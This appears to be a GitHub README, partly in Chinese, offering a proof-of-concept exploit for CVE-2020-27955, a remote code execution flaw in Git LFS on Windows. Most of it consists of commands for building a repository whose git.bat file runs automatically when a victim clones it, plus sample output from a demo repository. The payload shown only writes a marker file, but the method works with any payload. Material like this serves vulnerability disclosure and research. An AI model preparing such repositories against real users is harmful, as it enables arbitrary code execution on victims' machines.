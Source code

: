 # Git <= 2.29.2 Git-LFS-RCE-Exploit-CVE-2020-27955


Git是一个免费的开源分布式版本控制系统，旨在快速高效地处理从小型到大型项目的所有事务。Git <= 2.12版本的Git LFS（git-lfs）具有允许远程命令执行的漏洞，攻击者可以在受害者的Windows系统上执行任意代码。

Git LFS是“用于对大文件进行版本控制的开源Git扩展。

https://git-lfs.github.com/

官网：https://git-scm.com/

发现者：Dawid Golunski

PoC：

使用以下步骤准备git的git-lfs PoC：


```
Attacker:

On a separate linux system (to prevent execution on the localhost on commit):


1. Create a new repository:

    mkdir git-lfs-RCE-exploit
    cd git-lfs-RCE-exploit
    git init


2. Prepare a malicious executable. E.g: git.bat with the following contents:

    @echo hacked > GITHACKED


3. Add the executable to the repository:

    git add git.bat


4. Add LFS file entries to the repository. This is necessary to trigger 
the vulnerable git-lfs submodule when the repository is cloned and processed
by the main git process.

    git lfs track "*.dat"
    git add .gitattributes

    echo "git exploit PoC" > big-bug-lfs-file.dat
    git add big-bug-lfs-file.dat


5. Commit both the exploit and the lfs files:

    git commit -a -m "Big Data, powered by Git LFS & the git-lfs exploit"
    

6. Push the changes to the repository:

    git remote add origin https://github.com/some-user-name/lfspoc
    git push -u origin master



Victim:

On windows, run powershell.exe shell and clone the PoC repo:

    git clone https://github.com/some-user-name/lfspoc .

At this point the malicious executable (git.bat) will be downloaded into the repo's directory
and automatically executed by the git-lfs submodule without any user interaction. 


As a result, 'GITHACKED' file should appear in the repo's directory 
To check, type:

    dir 




Alternatively, a demo repository with a plain-text bat file located at
https://github.com/ExploitBox/git-lfs-RCE-exploit-CVE-2020-27955.git
can be used as follows:

C:\Users\victim> git clone https://github.com/ExploitBox/git-lfs-RCE-exploit-CVE-2020-27955.git .

Cloning into '.'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 24 (delta 5), reused 17 (delta 1), pack-reused 0
Receiving objects: 100% (24/24), done.
Resolving deltas: 100% (5/5), done.
...

C:\Users\victim> type GITHACKED
hacked
```

https://legalhackers.com/advisories/Git-LFS-RCE-Exploit-CVE-2020-27955.html

https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html

https://forum.ywhack.com/thread-114689-1-5.html